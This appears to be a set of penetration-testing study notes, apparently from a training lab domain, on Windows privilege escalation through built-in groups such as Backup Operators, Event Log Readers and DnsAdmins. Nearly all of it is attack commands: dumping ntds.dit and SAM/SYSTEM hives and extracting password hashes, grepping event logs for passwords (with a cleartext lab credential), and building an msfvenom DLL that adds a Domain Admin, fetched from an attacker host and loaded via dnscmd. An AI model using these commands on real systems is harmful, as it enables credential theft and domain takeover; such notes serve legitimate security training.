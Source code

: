     - Copying NTDS.dit Locally
        - Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
    - 
        - reg save HKLM\SYSTEM SYSTEM.SAV
        - reg save HKLM\SAM SAM.SAV
    - Extracting Credentials from NTDS.dit
        - Import-Module .\DSInternals.psd1
        - $key = Get-BootKey -SystemHivePath .\SYSTEM
        - Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
        - OUR HOST - [secretsdump.py](http://secretsdump.py/) -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
    - Robocopy
        - robocopy /B E:\Windows\NTDS .\ntds ntds.dit
- Event Log Readers
    - Confirming Group Membership
        - net localgroup "Event Log Readers”
    - Searching Security Logs Using wevtutil
        - wevtutil qe Security /rd:true /f:text | Select-String "/user”
        - wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user”
    - Searching Security Logs Using Get-WinEvent
        - Get-WinEvent -LogName security | where { $*.ID -eq 4688 -and $*.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
    - Powershell Operation Log
- DnsAdmins
    - msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
    - python3 -m http.server 7777
    - wget "[http://10.10.14.3:7777/adduser.dll](http://10.10.14.3:7777/adduser.dll)" -outfile "adduser.dll"
    - Loading DLL as Non-Privileged
        - dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
    - Loading DLL as Member of DnsAdmins
        - Get-ADGroupMember -Identity DnsAdmins
    - Loading Custom DLL
        - dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
    - Finding User's SID
        - wmic useraccount where name="netadm" get sid
    - Checking Permissions on DNS Service
        - sc.exe sdshow DNS
    - Stopping the DNS Service
        - sc stop dns
    - Starting the DNS Service
        - sc start dns
    - Confirming Group Membership
        - net group "Domain Admins" /dom
- Hyper-V Administrators
- Print Operators
- Server Operators
- User Account Control
    - default RID 500 administrator
    - net localgroup administrators
    - whoami /priv
    - Confirming UAC is Enabled
        - REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
    - Checking UAC Level
        - REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
    - Checking Windows Version
        - [environment]::OSVersion.Version
    - [https://en.wikipedia.org/wiki/Windows_10_version_history](https://en.wikipedia.org/wiki/Windows_10_version_history)
    - https://github.com/hfiref0x/UACME- list of UAC bypasses